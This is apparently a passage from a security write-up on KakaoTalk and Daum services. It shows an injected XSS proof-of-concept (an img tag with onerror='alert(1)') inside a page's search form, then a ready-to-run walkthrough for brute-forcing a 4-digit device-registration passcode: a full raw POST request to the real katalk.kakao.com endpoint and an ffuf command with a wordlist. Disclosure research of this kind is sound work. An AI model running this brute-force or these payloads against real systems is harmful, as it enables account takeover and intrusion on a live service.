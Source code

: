 Represented in the DOM as:

```html
<div class="wrap_shwsearch">
  <form class="frm_sch" action="#" role="search">
    <fieldset>
      <legend class="screen_out">검색어 입력폼</legend>
      <div class="box_search">
        <input type="search" class="inp_search btn_searchbox" id="headerQueryInput" value="" /><img src="//shop1.daumcdn.net/search/cdn/simage/shopping/img/mobile/2015mw/m640/nothumb_120.gif" onerror="alert(1);" />" placeholder="상품 검색"
        data-gg="{lk:mo_gnb_search,tp:A}"&gt;<button type="submit" class="btn_search btn_searchbox _GC_"><span class="ico_shwgnb">검색</span></button>
      </div>
    </fieldset>
  </form>
</div>
```

### Brute-forcing with ffuf

To brute-force the 4-digit pin we can use `ffuf` to brute-force it:

1. Store the following HTTP request to a file:

```
POST /win32/account/register_device.json HTTP/1.1
Host: katalk.kakao.com
User-Agent: KT/3.4.3 Wd/10.0 ko
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
A: win32/3.4.3/ko
X-VC: 353ca125385092ac
Accept-Language: ko
Content-Length: 166

email=foo%40kakao.com&password=bar&device_name=sdk_gphone_arm64&device_uuid=c2RrX2dwaG9uZV9hcm0zMg==&permanent=true&once=false&passcode=FUZZ
```

2. Run `ffuf` with the [4-digits-0000-9999](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/4-digits-0000-9999.txt) dictionary:

```bash
$ ffuf -w 4-digits-0000-9999.txt -request request.txt -fs 15,177
```